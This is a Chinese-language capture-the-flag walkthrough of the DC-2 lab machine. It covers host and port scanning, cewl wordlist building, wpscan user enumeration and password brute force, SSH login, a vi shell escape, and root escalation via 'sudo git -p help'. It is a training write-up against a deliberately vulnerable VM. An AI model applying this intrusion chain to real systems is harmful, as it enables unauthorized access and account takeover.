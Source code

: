 ### 扫描地址
```zsh
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
[sudo] password for kali:
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ae:51:81, IPv4: 192.168.7.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.7.1     00:50:56:c0:00:08       (Unknown)
192.168.7.2     00:50:56:e4:2a:ab       (Unknown)
192.168.7.129   00:0c:29:9e:63:89       (Unknown)
192.168.7.254   00:50:56:e7:52:95       (Unknown)
```

### 得到地址后

```zsh
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.7.129 -p 1-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 09:19 EDT
Nmap scan report for 192.168.7.129
Host is up (0.00070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 00:0C:29:9E:63:89 (VMware)
```

`80`端口发生``302``跳转 http://dc-2/
手动`hosts`添加后进入web
提示可以使用[[cewl]]
`7744` 不知道是啥
丢进浏览器也不是web

[[cewl]]是一个字典生成器，它从指定url读取字符串

```zsh
cewl http://dc-2/ >> 11.txt
```

### [[dirsearch]]

```zsh
dirsearch -u http://dc-2/
dirsearch -u 192.168.7.129
```

看到了wp

### 使用[[wpscan]]

### 枚举用户

```zsh
wpscan --url http://dc-2/ -e u
```

##### 几个用户名建txt丢进去

```
admin
jerry
tom
```

### 与[[cewl]]得到的字典组合

```zsh
wpscan --url http://dc-2/ -U user.txt -P 11.txt
```

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

```
http://dc-2/wp-admin
```
### 登录后可以看到flag2


### 使用ssh登录tom

```zsh
ssh tom@192.168.7.129 -p 7744
```

### vi提权

```
vi
ESC
:set shell=/bin/bash
:shell
```
### 添加PATH使用更多命令

```zsh
export PATH=/bin:$PATH
```

```zsh
tom@DC-2:~$ su jerry
jerry@DC-2:/home/tom$ cd
jerry@DC-2:~$ ls
flag4.txt
```

得到`flag4`

```zsh
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

### Git提权

```shell
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:~$ sudo git
usage: git [--version] [--help] [-C <path>] [-c name=value]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p|--paginate|--no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           <command> [<args>]
```

`sudo git`可以无密码使用

```shell
sudo git -p help
!/bin/bash
```

```
root@DC-2:/home/jerry# cd
root@DC-2:~# ls
final-flag.txt
root@DC-2:~# cat final-flag.txt
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```